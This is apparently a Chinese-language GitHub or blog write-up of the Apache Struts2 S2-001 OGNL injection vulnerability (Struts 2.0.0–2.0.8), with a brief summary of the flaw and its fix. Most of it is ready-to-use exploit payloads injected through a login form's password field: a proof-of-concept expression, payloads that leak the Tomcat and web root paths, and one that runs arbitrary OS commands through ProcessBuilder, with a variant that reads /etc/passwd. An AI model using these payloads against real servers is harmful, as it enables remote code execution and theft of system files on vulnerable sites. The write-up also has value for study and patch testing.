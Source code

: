 [博文地址](https://www.codemonster.cn/2018/03/28/2018-struts2-001/)
# 漏洞摘要
```
官方链接：https://cwiki.apache.org/confluence/display/WW/S2-001
官方概述：Remote code exploit on form validation error
影响版本：Struts 2.0.0 - Struts 2.0.8
修复摘要：数据 re-display 时禁止执行 OGNL 表达式
```

# 漏洞利用
### POC:
```
username=xishir&password=%{1+1}
```
![](https://www.codemonster.cn/img/s2/s2-001-2.png)  
### EXP:
获取tomcat执行路径：
```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```
获取Web路径：
```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```
执行任意命令：
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
带参数的命令：`new java.lang.String[]{"cat","/etc/passwd"}`
![](https://www.codemonster.cn/img/s2/s2-001-3.png)
